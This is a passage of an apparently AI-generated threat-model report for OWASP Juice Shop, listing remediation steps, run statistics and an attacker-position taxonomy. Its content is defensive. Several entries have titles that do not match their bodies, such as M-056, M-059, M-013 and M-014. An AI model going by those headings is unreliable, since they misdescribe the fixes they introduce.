**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/Services/request.interceptor.ts:16`

**How:** Introduce a Backend-for-Frontend that completes login server-side and issues the session as a Set-Cookie with HttpOnly; Secure; SameSite=Strict; the SPA never touches the raw token. Delete the `localStorage.setItem('token', ...)` writes in `oauth.component.ts`, `two-factor-auth-enter.component.ts` and the login service, and remove the manual Authorization header in `request.interceptor.ts` so the cookie is sent automatically. Have the BFF validate the cookie-bound session on each API call and forward an internal token the browser never sees.

1. Introduce a Backend-for-Frontend that completes login server-side and issues the session as a Set-Cookie with HttpOnly; Secure; SameSite=Strict; the SPA never touches the raw token.
2. Delete the `localStorage.setItem('token', ...)` writes in `oauth.component.ts`, `two-factor-auth-enter.component.ts` and the login service, and remove the manual Authorization header in `request.interceptor.ts` so the cookie is sent automatically.
3. Have the BFF validate the cookie-bound session on each API call and forward an internal token the browser never sees.

```javascript
// BFF response — token never reaches JS
res.cookie('session', sessionId, {
  httpOnly: true, secure: true, sameSite: 'strict', maxAge: 8*3600*1000
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html`#local-storage

---

<a id="m-056"></a>
#### M-056 — Verify token signatures before trusting claims

**Addresses:**

- 🟡 [F-047](#f-047) — Redirect allowlist uses substring match, enabling open (`lib/insecurity.ts:138`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/insecurity.ts:138`

**How:** Compare the full target URL for exact equality against the allowlist set, not via `includes()`. Parse the URL and validate origin (scheme+host) against an allowlisted origin set. Default-deny: redirect to a safe local path when the target is not explicitly allowed.

1. Compare the full target URL for exact equality against the allowlist set, not via `includes()`.
2. Parse the URL and validate origin (scheme+host) against an allowlisted origin set.
3. Default-deny: redirect to a safe local path when the target is not explicitly allowed.

```javascript
export const isRedirectAllowed = (url: string) => redirectAllowlist.has(url)
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html`

---

<a id="m-057"></a>
#### M-057 — Adopt OIDC Trusted Publishing and remove the long-lived DOCKERHUB_TOKEN

**Addresses:**

- 🟡 [F-048](#f-048) — Long-Lived Publish Token Instead of OIDC (`release.yml:65`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/release.yml:65`

**How:** Add `permissions: { id-token: write, contents: read }` to the release docker job and configure Docker Hub OIDC trust (or migrate publishing to GHCR which natively supports the workflow OIDC token). Remove the `DOCKERHUB_TOKEN` / `DOCKERHUB_USERNAME` secrets from the workflow once OIDC is verified working. If a static token must remain temporarily, scope it to a single repository and rotate it on a schedule.

1. Add `permissions: { id-token: write, contents: read }` to the release docker job and configure Docker Hub OIDC trust (or migrate publishing to GHCR which natively supports the workflow OIDC token).
2. Remove the `DOCKERHUB_TOKEN` / `DOCKERHUB_USERNAME` secrets from the workflow once OIDC is verified working.
3. If a static token must remain temporarily, scope it to a single repository and rotate it on a schedule.

```javascript
permissions:
  id-token: write
  contents: read
steps:
  - uses: docker/login-action@<sha>
    with:
      registry: ghcr.io
```

**Reference:** https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect

---

<a id="m-058"></a>
#### M-058 — Authenticate the Socket\.IO handshake with the session token and authorize each event server-side

**Addresses:**

- 🟡 [F-049](#f-049) — Socket\.IO WebSocket established without authentication (`socket-io.service.ts:22`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/socket-io.service.ts:22`

**How:** Pass the session credential in the Socket\.IO handshake (io(origin, { auth: { token } }) or, with a BFF, the session cookie) so the server can identify the connection. Add a server-side `io.use()` middleware that rejects unauthenticated handshakes and authorizes each emitted event against the connection's identity. Scope server-pushed events to the authenticated user rather than broadcasting indiscriminately.

1. Pass the session credential in the Socket\.IO handshake (io(origin, { auth: { token } }) or, with a BFF, the session cookie) so the server can identify the connection.
2. Add a server-side `io.use()` middleware that rejects unauthenticated handshakes and authorizes each emitted event against the connection's identity.
3. Scope server-pushed events to the authenticated user rather than broadcasting indiscriminately.

```javascript
// client
this._socket = io(origin, { path, auth: { token: getToken() } })
// server
io.use((socket, next) => verify(socket.handshake.auth.token) ? next() : next(new Error('unauthorized')))
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html`

---

<a id="m-059"></a>
#### M-059 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟡 [F-050](#f-050) — Untrusted External Contribution to Public Repository (`ci.yml:14`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:14`

**How:** Enable branch protection on `master` and `develop` requiring at least one maintainer (CODEOWNERS) approval and passing status checks before merge. Require the `dependency-review` and CI checks (ci-cd-pipeline-008) to pass as merge gates so contributed manifest changes are inspected. Restrict `pull_request_target` and deploy-credential jobs to never run on unreviewed fork code, and confirm 'Require approval for all outside collaborators' is set under Actions settings.

1. Enable branch protection on `master` and `develop` requiring at least one maintainer (CODEOWNERS) approval and passing status checks before merge.
2. Require the `dependency-review` and CI checks (ci-cd-pipeline-008) to pass as merge gates so contributed manifest changes are inspected.
3. Restrict `pull_request_target` and deploy-credential jobs to never run on unreviewed fork code, and confirm 'Require approval for all outside collaborators' is set under Actions settings.

**Reference:** https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-protected-branches/about-protected-branches

---

<a id="m-060"></a>
#### M-060 — Add Dependabot updates plus a blocking dependency-review gate on PRs

**Addresses:**

- 🟡 [F-051](#f-051) — No Automated Dependency Update or PR Dependency-Review Gate (`ci.yml:14`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:14`

**How:** Add `.github/dependabot.yml` with `npm` and `github-actions` ecosystems so dependency and action-SHA bumps arrive as reviewable PRs. Add `actions/dependency-review-action` as a required check on `pull_request` so PRs introducing known-vulnerable or denied-license dependencies fail CI. Promote `npm audit --audit-level=high` to a blocking step on the default branch.

1. Add `.github/dependabot.yml` with `npm` and `github-actions` ecosystems so dependency and action-SHA bumps arrive as reviewable PRs.
2. Add `actions/dependency-review-action` as a required check on `pull_request` so PRs introducing known-vulnerable or denied-license dependencies fail CI.
3. Promote `npm audit --audit-level=high` to a blocking step on the default branch.

```javascript
# .github/workflows/dependency-review.yml
on: pull_request
permissions:
  contents: read
jobs:
  review:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@<sha>
      - uses: actions/dependency-review-action@<sha>
```

**Reference:** https://github.com/actions/dependency-review-action

---

<a id="m-061"></a>
#### M-061 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-052](#f-052) — InnerHTML sink renders markdown-derived hint HTML (`index.ts:126`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/hacking-instructor/index.ts:126`

**How:** Run snarkdown output through `DOMPurify.sanitize(...)` before assigning to `innerHTML`, allowing only a safe tag/attribute allowlist. Prefer rendering hint content through an Angular component binding so the framework sanitizer applies, instead of raw `innerHTML`. Ensure `hint.text` sources (translations, challenge data) are treated as untrusted input.

1. Run snarkdown output through `DOMPurify.sanitize(...)` before assigning to `innerHTML`, allowing only a safe tag/attribute allowlist.
2. Prefer rendering hint content through an Angular component binding so the framework sanitizer applies, instead of raw `innerHTML`.
3. Ensure `hint.text` sources (translations, challenge data) are treated as untrusted input.

```javascript
import DOMPurify from 'dompurify'
textBox.innerHTML = DOMPurify.sanitize(snarkdown(hint.text))
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html`

---

<a id="m-062"></a>
#### M-062 — Verify token signatures before trusting claims

**Addresses:**

- 🟡 [F-053](#f-053) — Alchemy RPC WebSocket event data trusted without (`routes/web3Wallet.ts:26`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/web3Wallet.ts:26`

**How:** Normalise event addresses with `ethers.getAddress()` (checksum) and reject values that fail validation before any Set mutation or `solveIf`. Verify the event originates from the expected contract address and signature, and wait for a minimum confirmation count to survive Sepolia reorgs before acting on it. Wrap event-handler logic in defensive validation so a malformed RPC frame cannot throw inside the unbounded subscription callback.

1. Normalise event addresses with `ethers.getAddress()` (checksum) and reject values that fail validation before any Set mutation or `solveIf`.
2. Verify the event originates from the expected contract address and signature, and wait for a minimum confirmation count to survive Sepolia reorgs before acting on it.
3. Wrap event-handler logic in defensive validation so a malformed RPC frame cannot throw inside the unbounded subscription callback.

```javascript
void contract.on('ContractExploited', (exploiter: string) => {
  let addr: string
  try { addr = ethers.getAddress(exploiter) } catch { return }
  if (walletsConnected.has(addr)) { /* act only on validated, confirmed event */ }
})
```

**Reference:** CWE-345

---

<a id="m-063"></a>
#### M-063 — Add security audit logging

**Addresses:**

- 🟡 [F-054](#f-054) — No audit logging of authentication and account-recovery (`routes/login.ts:32`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/login.ts:32`

**How:** Log a structured event (actor id, action, resource, source IP, result, UTC timestamp) on every login success, login failure, password reset, and 2FA enable/disable. Write to an append-only sink (immutable log store or write-once table) separate from the application database so it survives DB compromise. Alert on anomalous patterns (repeated failures, reset-then-2FA-disable sequences) feeding the brute-force detection from auth-006.

1. Log a structured event (actor id, action, resource, source IP, result, UTC timestamp) on every login success, login failure, password reset, and 2FA enable/disable.
2. Write to an append-only sink (immutable log store or write-once table) separate from the application database so it survives DB compromise.
3. Alert on anomalous patterns (repeated failures, reset-then-2FA-disable sequences) feeding the brute-force detection from auth-006.

```javascript
logger.info({ event: 'auth.login.success', userId: user.data.id,
  ip: req.ip, ts: new Date().toISOString() })
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html`

---

<a id="m-064"></a>
#### M-064 — Add security audit logging

**Addresses:**

- 🟡 [F-055](#f-055) — No security audit log for authentication and admin actions (`routes/login.ts:34`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/login.ts:34`

**How:** Log login success/failure, logout, password reset, and every `/api/`* create/update/delete with { actor, action, resource, result, timestamp, `sourceIp` } to a dedicated audit sink. Write audit events to an append-only/immutable store (separate from application logs) so they cannot be silently altered. Ensure logged fields exclude secrets but retain enough to attribute actions to a user id.

1. Log login success/failure, logout, password reset, and every `/api/`* create/update/delete with { actor, action, resource, result, timestamp, `sourceIp` } to a dedicated audit sink.
2. Write audit events to an append-only/immutable store (separate from application logs) so they cannot be silently altered.
3. Ensure logged fields exclude secrets but retain enough to attribute actions to a user id.

```javascript
auditLog.info({ event: 'login', result: 'success', actor: user.data.id, ip: req.ip, ts: new Date().toISOString() })
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html`

---

<a id="m-065"></a>
#### M-065 — Add security audit logging

**Addresses:**

- 🟡 [F-056](#f-056) — Missing Audit Logging of Coupon and Tool Actions (`routes/chat.ts:179`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/chat.ts:179`

**How:** On every `generateCoupon` success, emit a structured audit log with `userId`, `orderId`, requested vs. issued discount, coupon code, and timestamp. Log `getOrderById` accesses (granted and denied) with the requesting `userId` and target `orderId` so order-data reads are attributable. Route these records to the application's security/audit log sink rather than only the Prometheus registry, and ensure they are append-only. Include the result of the eligibility check (from llm-chat-interface-002) so denied-but-attempted abuse is also captured.

1. On every `generateCoupon` success, emit a structured audit log with `userId`, `orderId`, requested vs. issued discount, coupon code, and timestamp.
2. Log `getOrderById` accesses (granted and denied) with the requesting `userId` and target `orderId` so order-data reads are attributable.
3. Route these records to the application's security/audit log sink rather than only the Prometheus registry, and ensure they are append-only.
4. Include the result of the eligibility check (from llm-chat-interface-002) so denied-but-attempted abuse is also captured.

```javascript
logger.info(JSON.stringify({
  event: 'coupon.generated', userId: await getUserId(req),
  requestedDiscount: discount, issuedDiscount: safeDiscount,
  couponCode, ts: new Date().toISOString()
}))
```

**Reference:** CWE-778

---

<a id="m-066"></a>
#### M-066 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-057](#f-057) — Express errorhandler returns full stack traces unconditionally (`server.ts:678`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:678`

**How:** Only mount `errorhandler()` when `process.env.NODE_ENV` !== 'production'. In production, install a terminal handler that logs the error server-side and responds with a generic message and request id, no stack. Disable the X-Powered-By/version disclosure (`helmet.hidePoweredBy()`).

1. Only mount `errorhandler()` when `process.env.NODE_ENV` !== 'production'.
2. In production, install a terminal handler that logs the error server-side and responds with a generic message and request id, no stack.
3. Disable the X-Powered-By/version disclosure (`helmet.hidePoweredBy()`).

```javascript
if (process.env.NODE_ENV !== 'production') {
  app.use(errorhandler())
} else {
  app.use((err, req, res, next) => res.status(500).json({ error: 'Internal Server Error' }))
}
```

**Reference:** CWE-209

---

<a id="m-067"></a>
#### M-067 — Minimize secret scope and isolate the privileged step

**Addresses:**

- 🟡 [F-060](#f-060) — Privileged Secrets Reachable in pull_request_target Flow (`pr-compliance.yml:438`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/pr-compliance.yml:438`

**How:** Replace the org-wide `ORG_ADMIN_TOKEN` with a fine-grained token scoped only to the org-block API, or move the block-user action into a separate `workflow_run` job that does not run in the untrusted PR context. Keep enforcing that no step in this workflow checks out or executes PR-head code, and add a CI lint (e.g. zizmor / actionlint) that fails if `github.event.pull_request.*` is ever interpolated into a `run:` or `script:` block. Scope the workflow `permissions:` block (already `pull-requests: write`, `issues: write`) to the minimum and avoid expanding it.

1. Replace the org-wide `ORG_ADMIN_TOKEN` with a fine-grained token scoped only to the org-block API, or move the block-user action into a separate `workflow_run` job that does not run in the untrusted PR context.
2. Keep enforcing that no step in this workflow checks out or executes PR-head code, and add a CI lint (e.g. zizmor / actionlint) that fails if `github.event.pull_request.*` is ever interpolated into a `run:` or `script:` block.
3. Scope the workflow `permissions:` block (already `pull-requests: write`, `issues: write`) to the minimum and avoid expanding it.

```javascript
# isolate privileged action via workflow_run on the trusted side
on:
  workflow_run:
    workflows: ["PR Compliance Check"]
    types: [completed]
```

**Reference:** https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

---

<a id="m-068"></a>
#### M-068 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟡 [F-063](#f-063) — Unbounded LLM Consumption on Chat Endpoint (`server.ts:637`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:637`

**How:** Add express-rate-limit to the route, keyed on authenticated user id: `app.post`('/rest/chat', `security.isAuthorized()`, `rateLimit({ windowMs: 60_000, max: 20 })`, utils.`asyncHandler`(`chat()`)). Cap the accepted messages array length and per-message size before invoking `streamText` (see llm-chat-interface-001 code example). Set a `maxOutputTokens` limit on the `streamText` call and consider lowering `stepCountIs` below 10 unless multi-tool flows require it. Add cost alerting on the existing Prometheus llm_*_tokens counters so runaway consumption is detected.

1. Add express-rate-limit to the route, keyed on authenticated user id: `app.post`('/rest/chat', `security.isAuthorized()`, `rateLimit({ windowMs: 60_000, max: 20 })`, utils.`asyncHandler`(`chat()`)).
2. Cap the accepted messages array length and per-message size before invoking `streamText` (see llm-chat-interface-001 code example).
3. Set a `maxOutputTokens` limit on the `streamText` call and consider lowering `stepCountIs` below 10 unless multi-tool flows require it.
4. Add cost alerting on the existing Prometheus llm_*_tokens counters so runaway consumption is detected.

```javascript
import { rateLimit } from 'express-rate-limit'
app.post('/rest/chat',
  security.isAuthorized(),
  rateLimit({ windowMs: 60_000, max: 20, validate: false }),
  utils.asyncHandler(chat()))
```

**Reference:** CWE-770

---

<a id="m-069"></a>
#### M-069 — Apply per-IP connection limits and per-event rate limiting to the Socket\.IO server

**Addresses:**

- 🟡 [F-064](#f-064) — No rate limiting or connection cap on (`registerWebsocketEvents.ts:21`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:21`

**How:** Introduce a per-IP connection counter in the `io.use()` handshake middleware and reject sockets beyond a sane threshold. Add a token-bucket rate limiter on inbound events (e.g. a counter on `socket.data`) so a single socket cannot flood `verify*`/`notification received` handlers. Configure `maxHttpBufferSize` and `pingTimeout`/`pingInterval` on the `Server` options to cap payload size and reap idle sockets.

1. Introduce a per-IP connection counter in the `io.use()` handshake middleware and reject sockets beyond a sane threshold.
2. Add a token-bucket rate limiter on inbound events (e.g. a counter on `socket.data`) so a single socket cannot flood `verify*`/`notification received` handlers.
3. Configure `maxHttpBufferSize` and `pingTimeout`/`pingInterval` on the `Server` options to cap payload size and reap idle sockets.

```javascript
const io = new Server(server, {
  cors: { origin: allowedOrigins },
  maxHttpBufferSize: 1e5,
  pingTimeout: 20000
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html`

---

### P4 — Backlog

<a id="m-012"></a>
#### M-012 — Add a container healthcheck

**Addresses:**

- 🟢 [F-069](#f-069) — HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

<a id="m-013"></a>
#### M-013 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-070](#f-070) — SBOM generation in build pipeline (`lock.yml:1`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `.github/workflows/lock.yml:1`

**How:** Generate SBOM (CycloneDX / SPDX) in release workflow and publish as artifact - SBOM generation enables downstream vulnerability tracking and supply-chain auditability.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-014"></a>
#### M-014 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-071](#f-071) — Renovate config present (`renovate.json:1`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `renovate.json / .renovaterc.json / .github/renovate.json:1`

**How:** Add `renovate.json` with a baseline preset (extends: ["config:base"]) OR confirm Renovate hosted-app is enabled at the repo / org level. - Renovate is a first-class peer of Dependabot for automated dependency updates. File-mode detection is best-effort; hosted-app mode is not detectable from the repo.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-070"></a>
#### M-070 — Emit signed SLSA provenance and SBOM attestations on the published image

**Addresses:**

- 🟢 [F-065](#f-065) — No Build Provenance Attestation on Published Image (`release.yml:74`)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `.github/workflows/release.yml:74`

**How:** Set `provenance: true` and `sbom: true` on the `docker/build-push-action` step in `release.yml` and `ci.yml` so buildx attaches in-toto/SLSA attestations to the manifest. Add `id-token: write` permission and a cosign keyless signing step (`cosign sign --yes <image>@<digest>`) so consumers can `cosign verify` provenance. Document the verification command for downstream users in the release notes.

1. Set `provenance: true` and `sbom: true` on the `docker/build-push-action` step in `release.yml` and `ci.yml` so buildx attaches in-toto/SLSA attestations to the manifest.
2. Add `id-token: write` permission and a cosign keyless signing step (`cosign sign --yes <image>@<digest>`) so consumers can `cosign verify` provenance.
3. Document the verification command for downstream users in the release notes.

```javascript
- uses: docker/build-push-action@<sha>
  with:
    push: true
    provenance: true
    sbom: true
```

**Reference:** https://slsa.dev/spec/v1.0/provenance

---

<a id="m-071"></a>
#### M-071 — Add security audit logging

**Addresses:**

- 🟢 [F-066](#f-066) — Security-relevant client errors logged only to console (`app.guard.ts:41`)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:41`

**How:** Ensure every authentication and authorization decision is logged server-side with actor, action, resource, and timestamp - the client cannot be the source of truth. Replace `console.log` of auth errors with a telemetry call to a backend security-event endpoint (rate-limited, no sensitive token contents). Record failed guard checks and session invalidations as server-side audit events for monitoring.

1. Ensure every authentication and authorization decision is logged server-side with actor, action, resource, and timestamp - the client cannot be the source of truth.
2. Replace `console.log` of auth errors with a telemetry call to a backend security-event endpoint (rate-limited, no sensitive token contents).
3. Record failed guard checks and session invalidations as server-side audit events for monitoring.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html`

---

<a id="m-072"></a>
#### M-072 — Add security audit logging

**Addresses:**

- 🟢 [F-067](#f-067) — No audit logging of WebSocket events or state (`registerWebsocketEvents.ts:24`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Log each connection with the (authenticated) user id, socket id, and source IP from `socket.handshake.address`. Emit a structured log entry (actor, action, resource, timestamp) inside `notification received` and each `verify*` handler before performing the side effect. Route these entries to the application's existing logger so they are persisted alongside HTTP audit events.

1. Log each connection with the (authenticated) user id, socket id, and source IP from `socket.handshake.address`.
2. Emit a structured log entry (actor, action, resource, timestamp) inside `notification received` and each `verify*` handler before performing the side effect.
3. Route these entries to the application's existing logger so they are persisted alongside HTTP audit events.

```javascript
socket.on('notification received', (data) => {
  logger.info({ event: 'notification_received', sid: socket.id, ip: socket.handshake.address, data })
  // ... existing logic
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html`

---

<a id="m-073"></a>
#### M-073 — Stop exposing internal information to clients

**Addresses:**

- 🟢 [F-068](#f-068) — Unauthenticated GET `/metrics` exposes Prometheus internals (`server.ts:725`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `server.ts:725`

**How:** Bind the metrics endpoint to an internal-only interface/port, or place it behind `security.isAuthorized()` plus an `isAdmin()` check. Alternatively require a static bearer token validated against an env var before serving the registry. Ensure reverse-proxy/ingress rules do not expose `/metrics` to the public internet.

1. Bind the metrics endpoint to an internal-only interface/port, or place it behind `security.isAuthorized()` plus an `isAdmin()` check.
2. Alternatively require a static bearer token validated against an env var before serving the registry.
3. Ensure reverse-proxy/ingress rules do not expose `/metrics` to the public internet.

```javascript
app.get('/metrics', metricsAuth, utils.asyncHandler(metrics.serveMetrics()))
// metricsAuth: 401 unless req.headers.authorization === `Bearer ${process.env.METRICS_TOKEN}`
```

**Reference:** CWE-200

---

<a id="m-074"></a>
#### M-074 — Source the Socket\.IO CORS origin from configuration with an explicit allowlist

**Addresses:**

- 🔴 [F-072](#f-072) — Hardcoded permissive CORS origin on Socket\.IO (`registerWebsocketEvents.ts:21`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:21`

**How:** Replace the literal with an allowlist read from `config.get('server.allowedOrigins')` so production origins are set per environment without code changes. Never fall back to `'*'` or origin reflection; reject unknown origins in the CORS `origin` callback. Pair the origin allowlist with handshake authentication so CORS is not the only access control.

1. Replace the literal with an allowlist read from `config.get('server.allowedOrigins')` so production origins are set per environment without code changes.
2. Never fall back to `'*'` or origin reflection; reject unknown origins in the CORS `origin` callback.
3. Pair the origin allowlist with handshake authentication so CORS is not the only access control.

```javascript
const allowed = config.get('server.allowedOrigins')
const io = new Server(server, {
  cors: { origin: (o, cb) => cb(null, allowed.includes(o)) }
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Cross_Origin_Resource_Sharing_Cheat_Sheet.html`

---

<a id="m-075"></a>
#### M-075 — Return generic error messages to clients

**Addresses:**

- 🟢 [F-073](#f-073) — Raw error message returned to client on web3 handler (`routes/nftMint.ts:33`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `routes/nftMint.ts:33`

**How:** Replace `res.status(500).json(utils.getErrorMessage(error))` with a static client-safe message (e.g. `{ success: false, message: 'Web3 operation failed' }`). Log the detailed `getErrorMessage(error)` via the existing `logger.error` sink so operators retain diagnostics without leaking them to callers.

1. Replace `res.status(500).json(utils.getErrorMessage(error))` with a static client-safe message (e.g. `{ success: false, message: 'Web3 operation failed' }`).
2. Log the detailed `getErrorMessage(error)` via the existing `logger.error` sink so operators retain diagnostics without leaking them to callers.

```javascript
} catch (error) {
  logger.error(`web3 handler failed: ${utils.getErrorMessage(error)}`)
  res.status(500).json({ success: false, message: 'Web3 operation failed' })
}
```

**Reference:** CWE-209

---

<a id="m-076"></a>
#### M-076 — Enforce data-export throttling and CAPTCHA validation server-side, not via localStorage

**Addresses:**

- 🟢 [F-074](#f-074) — Client CAPTCHA timestamp read unvalidated from (`data-export.component.ts:48`)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `frontend/src/app/data-export/data-export.component.ts:48`

**How:** Move the data-export cooldown to the server, keyed by authenticated user/IP, with express-rate-limit or an equivalent throttle. Validate the CAPTCHA solution server-side on every data-export request and reject if absent or stale. Treat the `localStorage` timestamp as a UX hint only; never as the enforcing control.

1. Move the data-export cooldown to the server, keyed by authenticated user/IP, with express-rate-limit or an equivalent throttle.
2. Validate the CAPTCHA solution server-side on every data-export request and reject if absent or stale.
3. Treat the `localStorage` timestamp as a UX hint only; never as the enforcing control.

```javascript
// server
import rateLimit from 'express-rate-limit'
app.post('/rest/user/data-export',
  rateLimit({ windowMs: 60_000, max: 1 }), handler)
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html`

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-21 10:21 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | opus |
| Repository | `/home/mrohr/j/3/juice-shop` |
| Output directory | `/home/mrohr/j/3/juice-shop/docs/security` |
| Wall clock (active) | 82m 09s |
| Agent compute (Σ parallel dispatches) | 82m 10s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|--------|--------|----------|--------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 61m 51s | 264 | 379,530 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 11m 39s | 149 | 170,596 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 8m 39s | 61 | 183,832 |
| **Total** | - | - | - | **82m 10s** | **474** | **733,958** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 3 | Architecture Modeling - 4 diagrams produced<br/>(2m01s) | threat-analyst (sonnet-4-6) | 2m 21s |
| Phase 4 | Attack Walkthroughs - 4 walkthroughs<br/>rendered (0m51s) | threat-analyst (sonnet-4-6) | 51s |
| Phase 5 | Asset Identification - 14 assets catalogued<br/>(2m08s) | threat-analyst (sonnet-4-6) | 2m 08s |
| Phase 6 | Attack Surface Mapping - 18 entry points (7<br/>unauthenticated) (2m08s) | threat-analyst (sonnet-4-6) | 2m 08s |
| Phase 7 | Trust Boundary Analysis - 8 boundaries<br/>(2m08s) | threat-analyst (sonnet-4-6) | 2m 08s |
| Phase 8 | Security Controls - ✅ 3 ⚠️ 7 🔶 8 ❌ 6 (1m46s) | threat-analyst (sonnet-4-6) | 1m 46s |
| Phase 9 | STRIDE dispatch prep - 8 components queued<br/>for fan-out (3m22s) | Nx stride-analyzer (sonnet-4-6) | 3m 22s |
| Phase 9 | STRIDE Merge - 74 threats (Critical: 8,<br/>High: 38, Medium: 18, Low: 10) | Nx stride-analyzer (sonnet-4-6) | 2m 42s |
| Phase 10 | Scan Synthesis - 2 SCA practice findings, 5<br/>known-bad-libs, 12 config-scan threats… | threat-analyst (sonnet-4-6) | 35s |
| Phase 10b | Triage Validation - 31 flags (31 warnings, 0<br/>info) [pre-flight + ranking] | appsec-triage-validator (sonnet-4-6) | 2m 48s |
| Phase 11 | Substeps 1-3 complete - yaml written,<br/>baseline cache updated, Stage 2 queued | threat-analyst (sonnet-4-6) | 1m 00s |
| Phase 11 | Management summary authored (RENDER_ROLE=ms) | threat-analyst (sonnet-4-6) | 1m 53s |
| Phase 11 | [§7](#7-security-architecture) enrichment complete (secarch role) | threat-analyst (sonnet-4-6) | 8m 25s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2
